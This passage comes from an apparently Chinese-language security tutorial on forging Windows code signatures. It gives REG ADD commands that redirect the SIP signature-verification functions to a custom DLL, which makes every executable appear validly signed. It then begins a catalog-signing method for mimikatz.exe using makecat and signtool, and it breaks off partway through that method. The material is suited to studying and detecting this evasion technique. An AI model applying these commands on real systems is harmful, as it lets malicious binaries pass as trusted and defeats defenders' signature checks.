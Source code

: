 - C689AAB8-8E78-11D0-8C47-00C04FC295EE - PE
- DE351A43-8E59-11D0-8C47-00C04FC295EE - catalog	.cat文件
- 9BA61D3F-E73A-11D0-8CD2-00C04FC295EE - CTL .ctl文件
- C689AABA-8E78-11D0-8C47-00C04FC295EE - cabinet .cab文件

如果替换exe文件的校验，即`CryptSIPDllVerifyIndirectData`和`CryptSIPDllGetSignedDataMsg`，命令如下：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\MySIP.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "AutoApproveHash" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\MySIP.dll" /f
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "GetLegitMSSignature" /f
```

重启explorer.exe，所有的exe文件都包含hash为：`018B222E21FBB2952304D04D1D87F736ED46DEA4`的签名

特别的地方：**伪造的签名来自于cat文件，但是会以Authenticode签名的格式显示，通过文件属性能够看到签名信息(这是Authenticode签名的特性，catalog签名不具有该特性)**

同样，修改原工程能够实现针对特定PE文件的签名伪造，方法不再赘述

## 0x04 针对cat文件的签名伪造方法
---

如果对所有.cat文件的签名验证过程进行替换，再将其添加到安全编录数据库中，那么，包含catalog签名的PE文件是否也随即获得伪造签名呢？

下面开始测试：

新建文本文档cat.txt，内容如下：

```
[CatalogHeader]
Name=makecat1.cat
[CatalogFiles]
<hash>ExeFile1=mimikatz.exe

```

**注：**

txt文件尾部需要一个空行，否则，在接下来的操作会报错，提示文件无法找到

使用makecat.exe生成makecat1.cat：

```
makecat -v cat.txt
```

为makecat1.cat添加伪造的Authenticode签名：

```
signtool sign /f certtest.pfx /p 123456 makecat1.cat
```

**注：**
